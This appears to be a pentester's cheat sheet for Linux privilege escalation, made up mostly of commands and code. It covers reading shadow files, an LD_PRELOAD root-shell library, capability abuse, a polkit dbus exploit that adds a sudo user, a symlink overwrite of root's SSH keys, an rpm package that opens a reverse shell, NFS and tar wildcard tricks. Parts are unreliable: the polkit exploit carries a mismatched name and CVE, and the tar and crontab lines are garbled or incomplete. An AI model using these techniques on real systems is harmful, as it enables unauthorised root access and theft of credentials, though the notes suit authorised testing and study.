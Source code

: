 # Linux

# Linux Privilege Escalation

## Misconfiguration

- Find writable directories
`find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null`
- Find writable directories in PATH
`IFS=':'; read -a patharr <<< "$PATH"; for dir in ${patharr[@]}; do if [ -w $dir ]; then echo -e "$dir : WRITABLE"; fi; done;`
- Find writable files
`find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null`
- Find suid binaries
`find / -perm /4000 2>/dev/null`
- Find guid binaries
`find / -perm /2000 2>/dev/null`
- Find binaries with capabilities
`getcap -r / 2>/dev/null`
- Look for cronjob
`crontab -lcat /etc/crontab`
- Look for nfs exports
`cat /etc/exports`
- Find unmounted drives
`ls /dev 2>/dev/null | grep -i "sd"`
- Look for credentials in fstab
`grep -E "(user|username|login|pass|password|pw|credentials)[=:]" /etc/fstab /etc/mtab 2>/dev/null`
- Look for mounted drives
`cat /etc/fstab 2>/dev/null | grep -v "^#" | grep -Pv "\\W*\\#" 2>/dev/null`
- Find hidden files
`find / -type f -iname ".*" -ls 2>/dev/null`
- Look for backup files
`find /var /etc /bin /sbin /home /usr/local/bin /usr/local/sbin /usr/bin /usr/games /usr/sbin /root /tmp -type f \\( -name "*backup*" -o -name "*\\.bak" -o -name "*\\.bck" -o -name "*\\.bk" \\) 2>/dev/null`
- Look for passwd and shadow files

```bash
#Passwd equivalent files
cat /etc/passwd /etc/pwd.db /etc/master.passwd /etc/group 2>/dev/null
#Shadow equivalent files
cat /etc/shadow /etc/shadow- /etc/shadow~ /etc/gshadow /etc/gshadow- /etc/master.passwd /etc/spwd.db /etc/security/opasswd 2>/dev/null

```

## LD_PRELOAD

If `env_keep += LD_PRELOAD` in sudoers:

```
$ cat << EOF > /tmp/shell.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
EOF
$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
$ ls -al shell.so
$ sudo LD_PRELOAD=/tmp/shell.so /usr/bin/*****
# id
uid=0(root) gid=0(root) groups=0(root)

```

## Capabilities

### cap_setuid+ep

- perl

```
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh";

```

- python

```
import os
os.setuid(0)
os.system('/bin/bash')

```

### cap_chown

- python

```
import os
os.chown("/etc/shadow", 1000, 1000)

```

- ruby

```
require 'fileutils'
FileUtils.chown_R 'user', 'user', '/etc/shadow'

```

## Binaries

- Look inside binaries for exploit possibilities

```
strings /path/to/binary

```

> If we find calls to an executable using relative path, we can create a malicious script using the binary name and update PATH to include the folder
> 

## Local exploits

### pwnkit (cve-2021-3560)

- Last vulnerable package (ubuntu) : 0.105-26ubuntu1
- Manual exploit (create attacker user with sudo rights)

```
# Create the user
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!
# Create a password
openssl passwd -6 mynewpassword
# Set the password
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'$6$TRiYeJLXw8mLuoxS$UKtnjBa837v4gk8RsQL2qrxj.0P8c9kteeTnN.B3KeeeiWVIjyH17j6sLzmcSHn5HTZLGaaUDMC4MXCjIupp8.' string:'Ask the pentester' & sleep 0.005s; kill $!

```

### Overwrite file with symlink

Scenario : if root write a file in a folder for which you have write permission, it's possible to overwrite a file only root can write by creating a symlink to the target file.
Example : [https://0xdedinfosec.vercel.app/posts/hackthebox-timing-writeup](https://0xdedinfosec.vercel.app/posts/hackthebox-timing-writeup)

```
# lowpriv can download a file as root via sudo to his home directory.
# create a symlink to /root/.ssh/authorized_keys
# on attack machine, serve a public key named authorized_keys
# download the file as root which will overwrite the link target
ln -s /root/.ssh/authorized_keys ~/.ssh/authorized_keys
sudo ....... (download authorized_keys > /root/.ssh/)

```

### yum

- Get a reverse shell using crafted rpm package

If low priv user can run yum as root, we can craft a rpm package to get a reverse shell as root:

```
# Create a script with reverse shell commands
# root.sh:
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/0.0.0.0/4444 0>&1'

# Then use fpm docker image to build the rpm:
docker run --rm -v $(pwd):/data skandyla/fpm -n packagename -s dir -t rpm -a all --before-install /data/root.sh  -p /data /data
# Start an HTTP server and tcp listener
python -m SimpleHTTPServer 8000
nc -lnvp 4444
# On the target machine, install the rpm package:
sudo yum install <http://0.0.0.0:8000/root-1.0-1.noarch.rpm>

```

### nfs

- Exploit rootsquash

```
# Copy a bash binary to mounted NFS
cp bash /mount/point/to/nfs
# Set owner to root
sudo chown root /mount/point/to/nfs/bash
# Set uid on binary
chmod a+sx /mount/point/to/nfs/bash
# Run the binary in low privilege shell
./bash -p (in low privilege shell)

```

### tar

- Exploit tar with wildcard injection

```
# Example tar command: cd /folder; tar cf /backup.tgz *
# Exploit this with checkpoint injection:
cd /folder
C
echo "" > --checkpoint=1
# Wait for tar to run as root

```

### pkexec

See this writeup for THM's road
[https://wiki.thehacker.nz/docs/thm-writeups/road-medium/](https://wiki.thehacker.nz/docs/thm-writeups/road-medium/)

## Shell escape sequence

[Escape Sequences](Linux%20aa8bad6ec9cf469eb33c04a049630f95/Escape%20Sequences%20a85c1c0e2e9b46a9a77fb2dab42f3ba4.csv)

## Tools

- [https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
- [https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh](https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh)
- [https://github.com/sleventyeleven/linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
- [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)

## Guides

- [https://book.hacktricks.xyz/linux-unix/privilege-escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation)
- [https://book.hacktricks.xyz/linux-unix/privilege-escalation/wildcards-spare-tricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/wildcards-spare-tricks)
- [https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Linux - Privilege Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
- [https://gtfobins.github.io/](https://gtfobins.github.io/)
- [https://tbhaxor.com/exploiting-linux-capabilities-part-3/](https://tbhaxor.com/exploiting-linux-capabilities-part-3/)

## Writeups

- [https://blog.tryhackme.com/skynet-writeup/](https://blog.tryhackme.com/skynet-writeup/)
- [https://s1gh.sh/tryhackme-wonderland/](https://s1gh.sh/tryhackme-wonderland/)